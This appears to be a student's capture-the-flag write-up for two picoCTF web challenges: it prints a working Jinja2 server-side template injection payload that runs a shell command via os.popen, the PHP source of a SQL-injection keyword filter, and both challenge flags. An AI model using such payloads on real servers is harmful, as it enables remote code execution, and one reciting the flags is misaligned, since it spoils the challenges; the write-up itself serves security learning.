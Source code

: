 # Module-Web Exploiatation
## Challenge 1-SSTI1
## What I did
```
I looked up pyjail ssti1. Thereafter, I came upon {{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag')['read']()}}. I pasted this on the website, which gave me the flag.
```
## Flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
## What I learned
In the SSTI1 challenge, I learned how Server-Side Template Injection (SSTI) vulnerabilities work and how they can be exploited when user input is unsafely embedded into server-side templates. By experimenting with different payloads, I discovered how template engines like Jinja2 can unintentionally execute code if input isn’t properly sanitized. This taught me the importance of input validation and using safe rendering methods. Overall, the challenge helped me understand how even simple-looking web forms can expose serious security flaws if user input directly interacts with backend logic.


## Challenge 2-Web Gauntlet
## What I did
```
<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_79a0ddc6}
?>
```
## Flag
picoCTF{y0u_m4d3_1t_79a0ddc6}
